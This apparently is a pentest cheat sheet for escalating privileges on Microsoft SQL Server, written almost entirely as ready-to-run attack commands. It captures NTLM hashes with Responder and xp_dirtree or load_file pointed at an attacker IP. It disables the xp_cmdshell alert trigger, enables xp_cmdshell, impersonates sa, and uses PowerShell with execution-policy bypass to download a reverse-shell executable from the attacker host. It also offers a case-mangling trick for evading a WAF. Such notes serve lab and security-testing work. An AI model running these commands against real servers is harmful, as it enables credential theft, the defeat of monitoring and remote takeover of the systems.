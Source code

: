 ```yaml
---
title: "MSSQL Privilege Escalation"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "exploit", "rce", "privesc", "pe"]
---
```


---
### Abuse #1: Steal NTLM hash

<div>

```bash
# In our local Linux machine
sudo responder -I tun0
```

</div>

{{< tab set1 tab1 active >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tab set1 tab3 >}}Method 3{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```mysql
xp_dirtree '\\10.10.14.10\any\thing';
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```mysql
use master; exec xp_dirtree '\\10.10.14.10\any\thing';
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```mysql
load_file('\\10.10.14.10\any\thing');
```

</div>

{{< /tabcontent >}}

### Abuse #2: Run xp_cmdshell

<div>

```mysql
# Check any policy blocking xp_cmdshell
select name from sys.server_triggers;
```

```mysql
# Disable trigger if any
disable trigger ALERT_xp_cmdshell on all server;
```

```mysql
# Enable xp_cmdshell
enable_xp_cmdshell;
```

```mysql
# RCE
xp_cmdshell whoami
```

</div>

### Abuse #3: Impersonate sa to run xp_cmdshell

<div>

```mysql
execute as login = 'sa'; exec sp_configure 'show advanced options', 1;
```

```mysql
execute as login = 'sa'; reconfigure;
```

```mysql
execute as login = 'sa'; exec sp_configure 'xp_cmdshell', 1;
```

```mysql
execute as login = 'sa'; reconfigure;
```

```mysql
execute as login = 'sa'; EXEC master..xp_cmdshell 'powershell.exe -ep bypass curl 10.10.14.10/rev.exe -o C:\ProgramData\rev.exe'
```

</div>

<small>*Note: try xp_cmDshElL to bypass WAF*</small>

### Abuse #4: Run External Script

<div>

```mysql
EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
```

</div>

<br>